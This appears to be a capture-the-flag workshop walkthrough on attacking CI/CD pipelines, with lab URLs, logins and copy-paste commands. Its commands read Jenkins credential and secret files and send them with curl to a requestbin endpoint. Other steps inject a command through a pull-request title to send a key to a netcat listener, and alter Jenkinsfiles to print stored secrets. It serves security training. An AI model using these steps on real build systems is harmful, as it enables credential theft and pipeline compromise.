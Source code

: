 This Walk Thru contains commands and snippets that will be used in the workshop, and should help save time from manually typing complex commands or copying and pasting from slides which may mangle text.

### URL List

CTFd
- http://`[randomhash]`.mylabserver.com:8000
  - alice/alice

Gitea
- http://`[randomhash]`.mylabserver.com:3000
  - thealice/thealice

GitLab
- http://`[randomhash]`.mylabserver.com:4000
  - alice/alice1234

Jenkins
- http://`[randomhash]`.mylabserver.com:8080
  - alice/alice



### Slide 23
```
withCredentials([string(credentialsId 'flag1', variable: 'flag1')])
    sh '''
        echo $flag1 |base64
    '''
}
```

### Slide 25

Replace `any` with the below
```
{node 'built-in'}
```
>e.g. `agent {node 'built-in'}`

Add the following to the `sh """` block
```
echo $JENKINS_HOME
cat $JENKINS_HOME/credentials.xml | base64
cat $JENKINS_HOME/secrets/master.key | base64
cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
ls $JENKINS_HOME
cat $JENKINS_HOME/flag5.txt
```
>Your code should look like the below:
>```
>sh """
>    virtualenv venv
>    pip install -r requirements.txt || true
>    echo $JENKINS_HOME
>    cat $JENKINS_HOME/credentials.xml | base64
>    cat $JENKINS_HOME/secrets/master.key | base64
>    cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
>    ls $JENKINS_HOME
>    cat $JENKINS_HOME/flag5.txt
>"""
>```

>**Note**: Jenkins is a fork of Hudson https://en.wikipedia.org/wiki/Hudson_(software) which was originally made by Sun Microsystems as an Open Source Project, then forked when Oracle bought it and wanted to trademark/monitize Hudson. So you'll sometimes see references to it such as in one of the files above.

### Slide 26


Go to requestbin.com and create a public bin

```
stage('Install Requirements') {
  steps {
    sh """
      curl -X POST \
      -F "file1=\$(cat $JENKINS_HOME/credentials.xml | base64 -w 0 | rev)" \
      -F "file2=\$(cat $JENKINS_HOME/secrets/master.key | base64 -w 0 | rev)" \
      -F "file3=\$(cat $JENKINS_HOME/secrets/hudson.util.Secret |base64 -w 0 | rev)" \
      -F "file4=\$(cat $JENKINS_HOME/flag5.txt | base64 | rev)" \
      ENDPOINT_URL
    """
  }


}
```

### Slide 29

```
docker pull ghcr.io/gitleaks/gitleaks:latest
```

```
git clone http://localhost:3000/Wonderland/duchess.git
```

```
docker run -v ./duchess/:/path ghcr.io/gitleaks/gitleaks:latest detect --source="/path" -v
```

```
cd duchess
```

```
ls -al
```

```
git log -L 8,8:.pypirc 43f216c
```

### Slide 33

Return to home from less exercise
```
cd ~
```

Get IP address of host network interface
```
ip addr show dev ens5
```

```
sudo netcat -nvlp 80
```

Go to Gitea instance

http://<server>:3000/

thealice/thealice

http://<server>:3000/Cov/reportcov

Paste this into pull request title, replace `<YOUR SERVER IP>` with the one you got from the `ip addr` command above.
```
echo ${KEY} > key && curl -v -F file=@key <YOUR SERVER IP>
```

### Slide 37

```
git clone http://localhost:3000/Wonderland/mock-turtle.git
```

Use the same creds for gitea: thealice/thealice

```
cd mock-turtle
```

```
git checkout -b branch1
```

```
nano version
```

Update the version number 

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

### Slide 38

```
nano Jenkinsfile
```

Paste this into the file at the line just below `steps {`:
```
withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
    sh 'echo $TOKEN | base64'
}
```

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

Next commit the file change

```
git add version Jenkinsfile
```

```
git commit -m "New version"
```

Push the changes up to the repository
```
git push --set-upstream origin branch1
```

In Gitea navigate to the mock-turtle repo, and switch to the new branch `branch1`

Create a pull request and submit it.

The pull request should get autoapproved.

Go to Jenkins and you should see an automated build kicked off for the new "version".

Look at the console output of the new build.




